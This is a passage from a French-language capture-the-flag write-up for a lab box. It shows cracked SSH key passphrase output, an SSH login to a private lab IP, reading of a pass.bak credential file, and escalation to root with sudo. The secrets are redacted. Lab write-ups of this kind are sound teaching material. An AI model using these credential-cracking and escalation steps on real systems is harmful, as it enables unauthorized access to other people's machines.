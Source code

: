 {% capture spoil %}
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[...expurgé...]          (id_rsa)
1g 0:00:00:10 DONE (2025-02-08 18:13) 0.09803g/s 1406Kp/s 1406Kc/s 1406KC/s *7¡Vamos!
Session completed.
{% endcapture %}
{% include elements/spoil.html %}

```bash
ssh -i id_rsa kay@10.10.53.133
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102

ls -hal
total 48K
[...expurgé pour brièveté...]
-rw------- 1 [...expurgé...]  [...expurgé...]    57 Apr 23  2018 pass.bak
[...expurgé pour brièveté...]

cat pass.bak 
here[...expurgé...]$$
```

Nous avons ainsi les accès root sur la machine, et nous trouvons un message du développeur de la box nous invitant à creuser encore plus pour trouver de nouveaux moyens d'exploration.

```bash
sudo su -
[sudo] password for [...expurgé...]:

id
uid=0(root) gid=0(root) groups=0(root)

ls -hl
total 4.0K
-rw-r--r-- 1 root root 1017 Apr 23  2018 flag.txt

cat flag.txt 
```
